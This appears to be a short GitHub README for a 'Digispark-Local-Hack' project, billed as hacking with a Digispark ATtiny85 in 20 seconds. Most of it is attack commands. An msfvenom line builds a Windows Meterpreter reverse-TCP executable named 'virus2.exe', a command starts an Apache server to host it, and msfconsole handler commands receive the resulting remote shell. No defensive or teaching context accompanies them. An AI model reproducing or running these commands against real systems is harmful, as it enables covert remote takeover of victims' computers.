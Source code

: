 # Digispark-Local-Hack
You can hack with Digispark Attiny85 in 20 Seconds

//////////////////////////

TERMINAL COMMANDS

//////////////////////////

FOR CREATE VIRUS:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<local ip> lport=<port> -a x64 --platform windows -f exe -o virus2.exe

//////////////////////////

FOR START WEB SERVER:

service apache2 start

//////////////////////////

MSFCONSOLE COMMANDS:

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST local ip

set LPORT port

exploit
